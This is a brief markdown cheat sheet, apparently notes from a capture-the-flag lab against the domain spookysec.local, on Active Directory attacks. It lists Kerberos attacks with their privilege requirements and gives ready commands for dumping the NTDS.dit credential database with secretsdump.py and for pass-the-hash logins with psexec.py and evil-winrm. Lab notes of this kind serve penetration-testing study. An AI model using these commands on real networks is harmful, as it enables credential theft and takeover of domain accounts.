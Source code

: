 
## Attacks Privilege requirements

- **Kerbrute Enumeration** - No domain access required 
- **Pass the Ticket** - Access as a user to the domain required
- **Kerberoasting** - Access as any user required
- **AS-REP Roasting** - Access as any user required
- **Golden Ticket** - Full domain compromise (domain admin) required 
- **Silver Ticket** - Service hash required 
- **Skeleton Key** - Full domain compromise (domain admin) required


## Dump NTDS.dit database
**Requirements**
- Admin user and password
```bash
secretsdump.py -just-dc backup@spookysec.local
```

## Pass the hash
**PSExec**
```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```
**Evil-WinRM**

```bash
evil-winrm -u administrator -H PUT_THE_HASH_HERE -i spookysec.local
```
- /!\\ This only requires the second part of the NTLM hash
